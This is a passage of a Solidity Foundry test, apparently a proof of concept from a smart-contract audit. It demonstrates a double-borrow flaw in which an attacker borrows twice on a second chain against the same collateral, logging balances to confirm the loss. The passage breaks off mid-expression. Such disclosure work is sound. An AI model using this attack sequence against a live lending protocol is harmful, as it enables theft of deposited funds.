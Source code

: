 ```solidity
        console2.log(
            "Attacker balance after first borrow:",
            balanceAfterFirstBorrow / 1e18,
            "tokens"
        );
        console2.log(
            "Amount gained from first borrow:",
            (balanceAfterFirstBorrow - initialAttackerBalance) / 1e18,
            "tokens"
        );

        // Protocol balance after first borrow
        uint256 protocolBalanceAfterFirstBorrow = IERC20(destToken).balanceOf(
            destLToken
        );
        console2.log(
            "Protocol balance after first borrow:",
            protocolBalanceAfterFirstBorrow / 1e18,
            "tokens"
        );
        console2.log(
            "Protocol supplied:",
            (initialProtocolBalance - protocolBalanceAfterFirstBorrow) / 1e18,
            "tokens"
        );

        // 4. Attacker tries to borrow AGAIN directly on Chain B
        vm.startPrank(attacker);
        // This should fail if the system is working correctly
        coreRouterB.borrow(borrowAmount, destToken);
        // If we reach here, the exploit worked!
        vm.stopPrank();

        // Check balance after second borrow
        uint256 balanceAfterSecondBorrow = IERC20(destToken).balanceOf(
            attacker
        );
        uint256 protocolBalanceAfterSecondBorrow = IERC20(destToken).balanceOf(
            destLToken
        );

        console2.log("------------ AFTER SECOND BORROW ------------");
        console2.log(
            "VULNERABILITY CONFIRMED: Attacker borrowed twice with same collateral!"
        );
        console2.log(
            "Attacker balance after second borrow:",
            balanceAfterSecondBorrow / 1e18,
            "tokens"
        );
        console2.log(
            "Amount gained from second borrow:",
            (balanceAfterSecondBorrow - balanceAfterFirstBorrow) / 1e18,
            "tokens"
        );
        console2.log(
            "Protocol balance after second borrow:",
            protocolBalanceAfterSecondBorrow / 1e18,
            "tokens"
        );
        console2.log(
            "Protocol supplied in second borrow:",
            (protocolBalanceAfterFirstBorrow -
```